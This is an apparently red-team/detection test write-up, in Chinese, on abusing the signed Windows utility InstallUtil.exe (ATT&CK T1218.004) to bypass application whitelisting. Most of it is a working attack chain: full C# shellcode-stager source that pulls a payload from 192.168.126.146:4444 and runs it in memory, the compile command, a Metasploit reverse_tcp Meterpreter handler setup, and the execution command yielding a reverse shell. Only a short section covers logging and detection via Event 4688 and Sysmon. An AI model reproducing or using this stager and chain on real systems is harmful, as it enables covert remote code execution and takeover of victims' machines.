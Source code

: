 # T1218-004-Win-使用Installutil.exe执行payload（白名单）

## 来自ATT&CK的描述

命令行实用程序InstallUtil可用于通过执行.NET二进制文件中指定的特定安装程序组件来安装和卸载资源。

InstallUtil位于Windows系统上的.NET目录中：

C:\Windows\Microsoft.NET\Framework\v\InstallUtil.exe

C:\Windows\Microsoft.NET\Framework64\v\InstallUtil.exe

InstallUtil.exe由Microsoft进行数字签名。攻击者可能会使用InstallUtil通过受信任的Windows实用程序来代理执行代码。攻击者还可以用Installutil来绕过进程白名单，方法是在二进制文件中使用属性，这些属性执行用属性[System.ComponentModel.RunInstaller(true)]修饰的类。

## 测试案例

说明：Installutil.exe所在路径没有被系统添加PATH环境变量中，因此，Installutil命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

Windows 安全日志/sysmon日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### x64 CS

```cs
using System;using System.Net;using System.Linq;using System.Net.Sockets;using System.Runtime.InteropServices;using System.Threading;using System.Configuration.Install;using System.Windows.Forms;
public class GQLBigHgUniLuVx {
public static void Main()
{
while(true)
{{ MessageBox.Show("doge"); Console.ReadLine();}}
}
 }

 [System.ComponentModel.RunInstaller(true)]
 public class esxWUYUTWShqW : System.Configuration.Install.Installer
 {
 public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)
 {
 jkmhGrfzsKQeCG.LCIUtRN();
 }

 }
 public class jkmhGrfzsKQeCG
 { [DllImport("kernel")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);
 [DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);
 [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);
 static byte[] ErlgHH(string ZwznjBJY,int KsMEeo) {
 IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);
 Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

 try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }
 catch { return null;}
 byte[] UmquAHRnhhpuE = new byte[4];
 XXxIoIXNCle.Receive(UmquAHRnhhpuE,4,0);
 int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE,0);
 byte[] qaYyFq = new byte[kFVRSNnpj +5];
 int SRCDELibA =0;
 while(SRCDELibA < kFVRSNnpj)
 { SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA +5,(kFVRSNnpj - SRCDELibA)<4096 ? (kFVRSNnpj - SRCDELibA) : 4096,0);}
 byte[] TvvzOgPLqwcFFv =BitConverter.GetBytes((int)XXxIoIXNCle.Handle);
 Array.Copy(TvvzOgPLqwcFFv,0, qaYyFq,1,4); qaYyFq[0]=0xBF;
 return qaYyFq;}
 static void cmMtjerv(byte[] HEHUjJhkrNS) {
 if(HEHUjJhkrNS !=null) {
 UInt32 WcpKfU = VirtualAlloc(0,(UInt32)HEHUjJhkrNS.Length,0x1000,0x40);
 Marshal.Copy(HEHUjJhkrNS,0,(IntPtr)(WcpKfU), HEHUjJhkrNS.Length);
 IntPtr UhxtIFnlOQatrk = IntPtr.Zero;
 UInt32 wdjYKFDCCf =0;
 IntPtr XVYcQxpp = IntPtr.Zero;
 UhxtIFnlOQatrk = CreateThread(0,0, WcpKfU, XVYcQxpp,0, ref wdjYKFDCCf);
 WaitForSingleObject(UhxtIFnlOQatrk,0xFFFFFFFF); }}
 public static void LCIUtRN() {

byte[] IBtCWU =null; IBtCWU = ErlgHH("192.168.126.146",4444);
cmMtjerv(IBtCWU);
} }

```

#### 编译payload

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe  /unsafe C:\Users\Administrator\Desktop\a\installutil.cs
```

![编译payload](https://img-blog.csdnimg.cn/20200413152034249.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
```

![监听](https://img-blog.csdnimg.cn/20200413152209214.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 执行payload

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```

#### 反弹shell

![执行payload](https://img-blog.csdnimg.cn/20200413152353294.png)

## 测试留痕

```bash
EventID:4688 #安全日志，windows server 2012以上配置审核策略，可对命令参数进行记录
```

![日志留痕](https://img-blog.csdnimg.cn/20200413152656624.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-004

<https://attack.mitre.org/techniques/T1218/004/>

基于白名单Installutil.exe执行payload

<https://micro8.gitbook.io/micro8/contents-1/71-80/72-ji-yu-bai-ming-dan-installutil.exe-zhi-hang-payload-di-er-ji>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
